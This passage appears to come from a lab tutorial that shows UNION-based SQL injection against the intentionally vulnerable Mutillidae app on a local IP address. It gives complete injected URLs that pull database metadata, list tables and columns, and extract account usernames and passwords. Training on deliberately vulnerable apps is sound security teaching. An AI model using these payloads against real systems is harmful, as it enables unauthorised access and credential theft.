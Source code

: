 
- Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.
```
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
```
<img width="1042" height="508" alt="image" src="https://github.com/user-attachments/assets/c23fc8ee-ca15-49c3-b095-b4da807ec3f7" />

- The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

- Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’
```
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
```
<img width="1044" height="484" alt="image" src="https://github.com/user-attachments/assets/f3878962-5aa1-436e-a940-7ddee067a757" />


- The url once executed will retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords
- When the attacker knows table names, he needs to discover what the column names are to extract data.

- In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

- Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

- Here we are trying to extract column names from the “accounts” table.




- The column names of the accounts is displayed below for the following url:
```
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
```

- Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

## Ex: (union select 1,username,password,is_admin,5 from accounts).
```
http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
```
